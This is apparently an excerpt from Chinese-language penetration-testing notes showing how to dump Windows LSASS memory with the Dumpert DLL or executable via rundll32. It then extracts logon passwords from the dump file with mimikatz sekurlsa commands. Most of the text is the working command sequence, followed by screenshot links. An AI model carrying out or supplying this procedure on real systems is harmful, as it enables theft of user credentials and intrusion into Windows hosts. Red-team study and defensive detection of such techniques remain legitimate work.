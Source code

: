 	https://github.com/outflanknl/Dumpert
	有三种，分别是dll，可执行文件和cs的Aggressor插件，这里测试下dll和exe
	DLL的执行方式是
	rundll32.exe C:\Outflank-Dumpert.dll,Dump
![image](/assets/Pentest_Note/master/img/653.png)

	文件保存在c:\windows\temp\dumpert.dmp
	用mimikatz
	>sekurlsa::mimidump c:\windows\temp\dumpert.dmp
	>sekurlsa::logonpasswords
![image](/assets/Pentest_Note/master/img/654.png)

	可执行文件就直接执行就可以了
![image](/assets/Pentest_Note/master/img/655.png)
![image](/assets/Pentest_Note/master/img/656.png)
![image](/assets/Pentest_Note/master/img/657.png)